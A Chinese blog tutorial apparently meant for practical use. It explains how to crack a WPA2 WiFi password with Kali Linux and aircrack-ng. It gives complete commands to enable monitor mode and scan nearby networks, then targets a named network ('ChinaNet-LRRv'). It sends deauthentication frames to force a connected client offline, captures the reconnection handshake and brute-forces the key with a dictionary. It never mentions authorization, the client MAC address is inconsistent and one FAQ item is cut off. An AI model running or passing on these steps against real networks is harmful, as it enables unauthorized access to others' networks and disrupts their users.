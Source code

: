 ```yaml
---
layout: post
title: 利用kali破解WIFI密码
date: 2020-06-26 
tag: 网络安全
typora-root-url: ..
---
```


本文讲述如何利用**kali**机 **aircrack-ng**相关命令，抓取**wifi**连接握手包。然后结合密码字典，破解wifi账号密码。

### aircrack-ng简介

Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上（设备列表请参阅其官方网站）并嗅探802.11a，802.11b，802.11g的数据。



### 工具准备

kali攻击机、USB无线网卡，如Ralink 802.11n。



### WIFI破解过程

整个wifi破解过程，包括三个步骤：

1. WIFI信息收集
2. WIFI连接握手包抓取
3. 利用密码字典暴力跑包

```mermaid
graph LR
one[WIFI信息收集]
two[WIFI握手包抓取]
three[暴力跑包]
one --> two
two --> three
```



### WIFI信息收集

- 使用命令列举网卡信息，查找无线网卡名称：`airmon-ng`

  ```python
  root@kali:~# airmon-ng
  ```

  ![image-20200627114604026](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627114604026.png)

  发现无线网卡`wlan0`。

- 开启无线网卡监听模式：`airmon-ng start <无线网卡名称>`

  ```python
  root@kali:~# airmon-ng start wlan0
  ```

  ![image-20200627114757107](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627114757107.png)

- 查看无线网卡监听模式是否打开：`iwconfig`

  ```python
  root@kali:~# iwconfig
  ```

![image-20200627114835453](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627114835453.png)

无线网卡`wlan0`处于监听模式，名称为`wlan0mon`

- 扫描附件wifi热点信息：`airodump-ng <处于监听模式的网卡名称>`

  ```python
  root@kali:~# airodump-ng wlan0mon
  ```

  ![image-20200627121014720](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627121014720.png)

输出的两个列表不停的刷新显示。第一个列表表示扫描到的无线网络 AP 信息：**BSSID**: 无线 AP 的硬件地址；**PWR**: 信号强度，值是负数，绝对值越小表示信号越强；**Beacons**：无线AP发出的通告编号；**\#Data**：被捕获到的数据分组的数量（一般数据量越大，抓取握手包更容易）；**\#/s**：过去10秒钟内每秒捕获数据分组的数量；**MB**：无线AP所支持的最大速率；**CH**: 无线网络信道；**ENC**: 加密方式，要破解的是 WPA2；**CIPHER**：加密算法；
**AUTH**：使用的认证协议；**ESSID**: 无线网络的名称。第二个列表表示某个无线网络中和用户设备的连接信息：**BSSID**: 无线 AP 的硬件地址；**STATION**: 用户设备的硬件地址。

通过扫描结果发现存在wifi信号**ChinaNet-LRRv**，其硬件地址为`80:xx:xx:xx:xx:28`。并且存在客户端连接至该wifi，该客户端硬件地址为`18:yy:yy:yy:yy:28`。



### 握手包抓取

- 抓取握手包：`airodump-ng -c <CH> --bssid <BSSID> -w <要保存握手包的目录> <处于监听模式的网卡名称>`

```python
root@kali:~# airodump-ng -c 1 --bssid 80:xx:xx:xx:xx:28 -w /home/ChinaNet-LRRv wlan0mon
```

抓包界面如下图所示：

![image-20200627122939950](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627122939950.png)

要抓握手包，需要客户端在wifi重新认证连接的情况下才能抓到。可使用下列命令让客户端下线，以便客户端重新连接。

- 发送反认证包，让客户端下线。客户端重新连接，便于抓取握手包：`aireplay-ng -0 <发送反认证包的个数> -a <BSSID> -c <强制下线的MAC地址（STATION下面的地址）> 无线网卡名称`

**-0**：采用Deauth攻击模式，后面紧跟攻击次数，这里设置为20，大家可以根据实际情况设置；**-a**：后面跟AP的mac地址；**-c**：后面跟客户端的mac地址。

```python
root@kali:~# aireplay-ng -0 20 -a 80:xx:xx:xx:xx:28 -c 18:yy:yy:yy:yy:40 wlan0mon
```

![image-20200627123413452](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627123413452.png)

如此，`18:yy:yy:yy:yy:40`被强制下线。

- 当客户端再次连接wifi时，抓取`80:xx:xx:xx:xx:28` 与 `18:yy:yy:yy:yy:40`间连接的握手包：

![image-20200627123657326](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627123657326.png)

抓到握手包之后，`Ctrl+C`停止抓包。查看对应目录下的包含握手信息的包：

![image-20200627123908530](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627123908530.png)



### WIFI密码破解

- 结合密码字典，使用aircrack-ng进行破解：`aircrack-ng -w <本地的字典文件> <握手包>`


```python
root@kali:~# aircrack-ng -w /home/common.txt /home/ChinaNet-LRRV-01.cap 
```

出现**KEY FOUND**，则表示破解成功。

![image-20200627124422162](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627124422162.png)

- 无线网卡退出监听模式：`airmon-ng stop <处于监听模式的无限网卡名称>`

```python
root@kali:~# airmon-ng stop wlan0mon
```

![image-20200627124637471](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627124637471.png)



### FAQ

实操过程中，可能出现：

- 扫描wifi过程中，无法收集到wifi信息
- 抓包中出现

注意：拔掉无线网卡重新插入，或者重启虚拟机。

### 参考链接

- [https://github.com/conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)
- [https://www.cnblogs.com/zgang/p/11562012.html](https://www.cnblogs.com/zgang/p/11562012.html)



